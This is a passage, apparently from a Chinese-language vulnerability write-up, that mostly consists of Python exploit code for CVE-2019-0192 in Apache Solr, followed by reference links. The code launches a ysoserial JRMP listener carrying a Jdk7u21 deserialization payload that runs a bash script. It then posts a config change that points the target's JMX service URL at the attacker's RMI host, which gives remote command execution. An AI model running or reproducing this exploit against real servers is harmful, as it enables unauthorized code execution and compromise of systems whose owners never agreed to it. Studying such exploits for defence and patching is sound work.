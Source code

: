         pro = subprocess.Popen(
            "java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21 'bash pwn.txt'", stdout=subprocess.PIPE, shell=True, preexec_fn=os.setsid)

        print("[+] Executing command =&gt;", end=' ')
        burp0_url = remote + ressource
        burp0_headers = {"Content-Type": "application/json"}
        burp0_json = {
            "set-property": {"jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://" + RHOST + ":" + RPORT + "/obj"}}
        r = requests.post(
            burp0_url, headers=burp0_headers, json=burp0_json)
        if r.status_code == 500:
            print("\033[92mOK\033[0m")
        else:
            print("KO")
            os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
            sys.exit()
        os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
        time.sleep(3)

    except KeyboardInterrupt:
        print("Exiting...")
        break 
``` 
```

## 参考链接

> https://github.com/mpgn/CVE-2019-0192

> https://mp.weixin.qq.com/s?__biz=MzI4NjE2NjgxMQ==&mid=2650237094&idx=1&sn=4125bf632680d991f38f9f147657b38d&chksm=f3e2d2d2c4955bc4894b3098ca11cbe7d9917c23e173c87b7fe2f02c84b195aea381746567a3&scene=21#wechat_redirect